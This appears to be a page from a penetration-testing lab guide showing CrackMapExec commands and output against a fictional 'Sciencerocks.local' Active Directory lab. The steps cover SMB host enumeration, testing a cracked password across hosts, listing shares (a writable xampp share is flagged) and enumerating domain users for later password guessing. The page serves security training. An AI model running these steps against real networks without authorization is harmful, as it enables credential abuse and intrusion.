 +++
title = "CrackMapExec"
weight = 50
+++

## 1. Windows Enumeration
CrackMapExec is a fantastic tool created by Porchetta Industries for enumerating and attacking Active Directory environments.
We can leverage the *hosts/windows.txt* file to learn more about our target environment.

*  **Wiki** [https://wiki.porchetta.industries/](https://wiki.porchetta.industries/)S
*  **GitHub** [https://github.com/Porchetta-Industries/CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec)

`crackmapexec smb hosts/windows.txt`

```bash
KEPLER-LINSRV14  [*] Windows 6.1 (name:KEPLER-LINSRV14) (domain:) (signing:False) (SMBv1:True)
FEYNMAN-WINSRV1  [*] Windows 10.0 Build 20348 x64 (name:FEYNMAN-WINSRV1) (domain:Sciencerocks.local) (signing:False) (SMBv1:False)
HAWKINGWINSRV19  [*] Windows 10.0 Build 20348 x64 (name:HAWKINGWINSRV19) (domain:Sciencerocks.local) (signing:False) (SMBv1:False)
EINSTEIN-DC01    [*] Windows 10.0 Build 20348 x64 (name:EINSTEIN-DC01) (domain:Sciencerocks.local) (signing:True) (SMBv1:False)
```

This first command tells us quite a bit about the Windows targets in our engagement:

* DNS Name
* Operating System
* Active Directory Domain
* SMB version
* SMB signing

## 2. Testing AD Credentials
We can pass the credentials we cracked with hascat to all of our *windows.txt* targets and see what systems our user has access to.

`crackmapexec smb hosts/windows.txt -u richard.f -p "Security24-7"`

```bash
SMB         192.168.0.104   445    KEPLER-LINSRV14  [+] \richard.f:Security24-7 
SMB         192.168.0.130   445    FEYNMAN-WINSRV1  [+] Sciencerocks.local\richard.f:Security24-7 
SMB         192.168.0.120   445    HAWKINGWINSRV19  [+] Sciencerocks.local\richard.f:Security24-7 
SMB         192.168.0.100   445    EINSTEIN-DC01    [+] Sciencerocks.local\richard.f:Security24-7
```
This output confirms that the AD credentials we cracked are valid.  The *[+]* indicates that CrackMapExec successfuly logged in to each machine.
However, the missing *(Pwn3d!)* badge lets us know we do not have Admin on any of these systems.

## 3. Enumerating SMB Shares
Now that we know we have valid AD credentials one of the next things we should do is take a look at any SMB shares we have access to to see if there is anything we can compromise.

`crackmapexec smb hosts/windows.txt -u richard.f -p "Security24-7" --shares`

```bash
SMB         192.168.0.120   445    HAWKINGWINSRV19  [+] Sciencerocks.local\richard.f:Security24-7 
SMB         192.168.0.120   445    HAWKINGWINSRV19  [+] Enumerated shares
SMB         192.168.0.130   445    FEYNMAN-WINSRV1  [+] Sciencerocks.local\richard.f:Security24-7 
SMB         192.168.0.120   445    HAWKINGWINSRV19  Share           Permissions     Remark
SMB         192.168.0.120   445    HAWKINGWINSRV19  -----           -----------     ------
SMB         192.168.0.120   445    HAWKINGWINSRV19  ADMIN$                          Remote Admin
SMB         192.168.0.120   445    HAWKINGWINSRV19  C$                              Default share
SMB         192.168.0.120   445    HAWKINGWINSRV19  IPC$            READ            Remote IPC
SMB         192.168.0.100   445    EINSTEIN-DC01    [+] Sciencerocks.local\richard.f:Security24-7 
SMB         192.168.0.104   445    KEPLER-LINSRV14  [+] \richard.f:Security24-7 
SMB         192.168.0.104   445    KEPLER-LINSRV14  [+] Enumerated shares
SMB         192.168.0.104   445    KEPLER-LINSRV14  Share           Permissions     Remark
SMB         192.168.0.104   445    KEPLER-LINSRV14  -----           -----------     ------
SMB         192.168.0.104   445    KEPLER-LINSRV14  print$                          Printer Drivers
SMB         192.168.0.104   445    KEPLER-LINSRV14  IPC$                            IPC Service (kepler-linsrv14 server (Samba, Ubuntu))
SMB         192.168.0.130   445    FEYNMAN-WINSRV1  [+] Enumerated shares
SMB         192.168.0.130   445    FEYNMAN-WINSRV1  Share           Permissions     Remark
SMB         192.168.0.130   445    FEYNMAN-WINSRV1  -----           -----------     ------
SMB         192.168.0.130   445    FEYNMAN-WINSRV1  ADMIN$                          Remote Admin
SMB         192.168.0.130   445    FEYNMAN-WINSRV1  C$                              Default share
SMB         192.168.0.130   445    FEYNMAN-WINSRV1  IPC$            READ            Remote IPC
SMB         192.168.0.130   445    FEYNMAN-WINSRV1  Users           READ            
SMB         192.168.0.130   445    FEYNMAN-WINSRV1  xampp           READ,WRITE      
SMB         192.168.0.100   445    EINSTEIN-DC01    [+] Enumerated shares
SMB         192.168.0.100   445    EINSTEIN-DC01    Share           Permissions     Remark
SMB         192.168.0.100   445    EINSTEIN-DC01    -----           -----------     ------
SMB         192.168.0.100   445    EINSTEIN-DC01    ADMIN$                          Remote Admin
SMB         192.168.0.100   445    EINSTEIN-DC01    C$                              Default share
SMB         192.168.0.100   445    EINSTEIN-DC01    IPC$            READ            Remote IPC
SMB         192.168.0.100   445    EINSTEIN-DC01    NETLOGON        READ            Logon server share 
SMB         192.168.0.100   445    EINSTEIN-DC01    SYSVOL          READ            Logon server share
```

Take note of the *xampp* share which our compromised user account has both READ and WRITE access to!

## 4. Enumerating Active Directory Users
We can also use crackmapexec to identify valid user accounts which could be later targeted with password guessing should we decide to go that route.

`crackmapexec smb hosts/windows.txt -u richard.f -p "Security24-7" --users`

```bash
SMB         192.168.0.100   445    EINSTEIN-DC01    [-] Error enumerating domain users using dc ip 192.168.0.100: unsupported hash type MD4
SMB         192.168.0.100   445    EINSTEIN-DC01    [*] Trying with SAMRPC protocol
SMB         192.168.0.120   445    HAWKINGWINSRV19  [+] Sciencerocks.local\richard.f:Security24-7 
SMB         192.168.0.104   445    KEPLER-LINSRV14  [+] \richard.f:Security24-7 
SMB         192.168.0.100   445    EINSTEIN-DC01    [+] Enumerated domain user(s)
SMB         192.168.0.104   445    KEPLER-LINSRV14  [-] Error enumerating domain users using dc ip 192.168.0.104: socket connection error while opening: [Errno 111] Connection refused
SMB         192.168.0.104   445    KEPLER-LINSRV14  [*] Trying with SAMRPC protocol
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\Administrator                  Built-in account for administering the computer/domain
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\Guest                          Built-in account for guest access to the computer/domain
SMB         192.168.0.104   445    KEPLER-LINSRV14  [+] Enumerated domain user(s)
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\krbtgt                         Key Distribution Center Service Account
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\albert.e                       
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\isaac.n                        
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\johannes.k                     
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\richard.f                      
SMB         192.168.0.104   445    KEPLER-LINSRV14  [+] Enumerated domain user(s)
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\marie.c                        
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\server.admin                   
SMB         192.168.0.100   445    EINSTEIN-DC01    Sciencerocks.local\neil.degrasse        
```
